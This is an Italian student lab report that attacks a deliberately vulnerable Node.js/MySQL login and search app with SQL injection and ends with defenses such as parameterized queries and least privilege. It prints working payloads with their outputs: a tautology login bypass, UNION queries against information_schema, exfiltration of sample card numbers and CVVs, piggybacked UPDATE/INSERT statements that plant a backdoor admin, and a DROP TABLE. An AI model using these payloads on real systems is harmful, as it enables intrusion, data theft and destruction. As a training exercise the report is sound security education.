







La traccia chiede di realizzare un attacco di SQL Injection di tipo in-band, basato su input dell'utente, usando tautologia, commento di fine riga e/o query piggybacked, e di dimostrare la violazione delle tre proprietà CIA partendo dall'ipotesi che l'attaccante non conosca la struttura del database. In concreto la traccia elenca quattro cose da fare: raccogliere informazioni sulla struttura del DB, esfiltrare dati, modificare il contenuto e cancellare una tabella. Questa relazione le affronta tutte, nell'ordine in cui le ho effettivamente eseguite.
La scelta principale è stata di non scrivere nei payload nomi di tabelle o colonne noti in partenza: l'attacco parte dal solo form di login e ricostruisce lo schema un pezzo alla volta, perché era proprio questo il punto richiesto dalla traccia.
L'ambiente è tutto dentro Docker Compose, che mi fa girare in due container separati
il database e l'applicazione web (i due "server" indicati dalla traccia). La traccia
suggeriva una pagina PHP, ma ho usato Node.js con Express perché lo conosco meglio; il
difetto che conta resta lo stesso, cioè query costruite incollando stringhe. Il DBMS è
MySQL 5.7, una versione vecchia, e nel driver ho lasciato acceso
multipleStatements: true: normalmente è spento, ma serve per far funzionare
il piggyback, quindi è una vulnerabilità messa lì apposta.
Il database ha tre tabelle, non una sola: se ci fosse solo users non ci
sarebbe niente da scoprire e la parte di information gathering non avrebbe senso. La
tabella users serve al login (id, username, password in chiaro, ruolo);
carte_credito contiene i dati di pagamento (intestatario, numero, cvv,
scadenza) ed è il dato sensibile che voglio rubare; ordini è una terza
tabella che serve solo ad avere qualcosa in più da elencare. All'inizio l'attaccante non
sa che carte_credito esiste.
I punti di iniezione sono due, tutti e due in web/app.js. In nessuno dei
due l'input viene parametrizzato o controllato: finisce dritto nella stringa SQL.
POST /login (autenticazione):
const query = `SELECT id, username FROM users
WHERE username = '${username}' AND password = '${password}'`;
GET /search/result (ricerca utenti, dopo il login):
const query = `SELECT id, username, password FROM users
WHERE username = '${user}'`;
La pagina di ricerca, quando la query va in errore, stampa direttamente il messaggio
del DBMS (err.sqlMessage). È un secondo difetto (espone informazioni), e
come si vede dopo mi ha reso molto più facile la fase di ricognizione.

Fig. 1: il form di login, l'unica cosa che l'attaccante vede all'inizio.
Ho seguito il percorso che farebbe uno che parte da zero. Prima entro nell'app saltando l'autenticazione (tautologia e commento di fine riga). Poi faccio ricognizione: capisco quante colonne ha la query, che versione di DBMS è e con che utente gira, e quali tabelle e colonne esistono. A quel punto esfiltro la tabella che ho scoperto, poi passo alla scrittura (modifico e inserisco dati) e infine cancello una tabella.
Tutte le fasi le ho automatizzate in web/attack.js
(npm run attack), che manda i payload via HTTP e stampa la risposta. Gli
output qui sotto sono presi da quell'esecuzione; dove utile riporto anche il log del
server, che mostra la query SQL davvero costruita.
Nel campo username metto una condizione sempre vera e commento il resto
della query, così il controllo sulla password sparisce.
Payload: ' OR '1'='1' --
# query eseguita (log server) SELECT id, username FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'qualsiasi' # lato attaccante HTTP 302 -> redirect /search?justLogged=1 sessione creata senza credenziali valide
Variante per entrare come un utente preciso (admin) ignorando la
password. Il -- (con lo spazio dopo, in MySQL serve) taglia via il pezzo
AND password.
Payload: admin' --
SELECT id, username FROM users WHERE username = 'admin' -- ' AND password = 'password_a_caso' HTTP 302 -> redirect /search?justLogged=1 (entrato come admin)
Per usare UNION mi serve sapere quante colonne ha la SELECT. Lo scopro
aumentando il numero dopo ORDER BY finché il DB non protesta.
ORDER BY 5 -> HTTP 500 :: ER_BAD_FIELD_ERROR Unknown column '5' in 'order clause' ORDER BY 4 -> HTTP 500 :: ER_BAD_FIELD_ERROR Unknown column '4' in 'order clause' ORDER BY 3 -> HTTP 200 :: (nessun errore) => le colonne sono 3

Con la UNION a 3 colonne tiro fuori un po' di informazioni di contesto.
Payload: ' UNION SELECT @@version, current_user(), database() --
id: 5.7.44 - Name: user@% - Password: testdb
Quindi: MySQL 5.7.44, l'app si collega come utente user sul database
testdb.

Chiedo l'elenco a information_schema.tables.
Payload: ' UNION SELECT table_name, table_schema, 1 FROM information_schema.tables WHERE table_schema=database() --
carte_credito | testdb ordini | testdb users | testdb
Salta fuori carte_credito: è quella che mi interessa.

Payload: ' UNION SELECT column_name, data_type, 1 FROM information_schema.columns WHERE table_name='carte_credito' --
id (int) | user_id (int) | intestatario (varchar) | numero (varchar) | cvv (varchar) | scadenza (varchar)
Adesso che so le colonne, accodo una SELECT su carte_credito.
Payload: ' UNION SELECT numero, cvv, intestatario FROM carte_credito --
4539115678901234 | 321 | Mario Bianchi 5105105105105100 | 852 | Luigi Verdi 4916338506082832 | 147 | Marco Rossi
Numeri di carta e CVV in chiaro tornano dentro la pagina. Riservatezza compromessa.

Visto che multipleStatements è acceso, posso attaccare altre query a
quella del login mettendo un ; (query piggybacked).
Payload nel campo username del login: x'; UPDATE users SET password='hacked123' WHERE username='admin'; --
# query eseguita (due statement) SELECT id, username FROM users WHERE username = 'x'; UPDATE users SET password = 'hacked123' WHERE username = 'admin'; -- ' AND password = 'x' # controllo cercando admin id: 1 - Name: admin - Password: hacked123

Payload: x'; INSERT INTO users (username,password,ruolo) VALUES ('attacker','attackerpass','admin'); --
id: 4 - Name: attacker - Password: attackerpass
Così ho un account admin con credenziali mie, e rientro quando voglio.
Sempre con il piggyback, butto giù la tabella delle carte.
Payload: x'; DROP TABLE carte_credito; --
# dopo il DROP riprovo a leggerla
' UNION SELECT numero, cvv, intestatario FROM carte_credito --
HTTP 500 :: ER_NO_SUCH_TABLE Table 'testdb.carte_credito' doesn't exist
La tabella non c'è più: tutto quello che dipende da quei dati smette di funzionare, finché non si ripristina da un backup. È una negazione del servizio.

| Proprietà | Come | Risultato |
|---|---|---|
| Confidentiality | tautologia, commento, UNION + information_schema | login bypassato, lette carte di credito e CVV |
| Integrity | piggyback UPDATE / INSERT | password di admin cambiata, creato un account backdoor |
| Availability | piggyback DROP TABLE | tabella cancellata, servizio fuori uso |
Sono violate tutte e tre, e ho usato tutte e tre le modalità della traccia (tautologia, commento di fine riga, piggyback), più la UNION per l'esfiltrazione.
Un paio di cose su cui mi sono bloccato e che spiegano alcune scelte:
-- in MySQL vuole uno spazio (o il fine riga) subito dopo
i due trattini. Le prime volte non lo mettevo e il payload non funzionava, perché senza
lo spazio non lo legge come commento. Per questo li ho scritti tutti con -- .The used SELECT statements have a different number of columns.
Da lì ho capito che mi serviva prima la fase con ORDER BY per contarle.multipleStatements è acceso. L'ho provato
anche da spento (default) e lo stesso payload con il ; dava errore di sintassi,
quindi è proprio quella opzione che apre la porta.user creato da Docker ha tutti i permessi su testdb,
anche UPDATE e DROP. È per questo che gli attacchi in scrittura passano, ed è il primo
punto dove interviene il minimo privilegio (vedi sotto).La difesa principale sono le query parametrizzate (prepared statement): tengono separati il codice SQL e i dati, così l'input non può più cambiare la struttura della query. Già solo questa ferma tutta la catena vista sopra. In pratica al posto della concatenazione si scrive:
db.query('SELECT ... WHERE username = ? AND password = ?', [username, password]);
Oltre a questa ci sono altre cose da sistemare, ognuna chiude un pezzo:
multipleStatements: false (è già il default): toglie di mezzo il piggyback.Partendo dal solo form di login e senza sapere niente dello schema, sono riuscito a entrare senza credenziali, ricostruire le tabelle, leggere i numeri di carta, cambiare i dati e infine cancellare una tabella, toccando tutte e tre le proprietà CIA. La causa è una sola e banale: le query costruite incollando stringhe. Bastano le query parametrizzate per chiudere tutto; le altre misure (minimo privilegio, hash, gestione degli errori) sono livelli di sicurezza in più.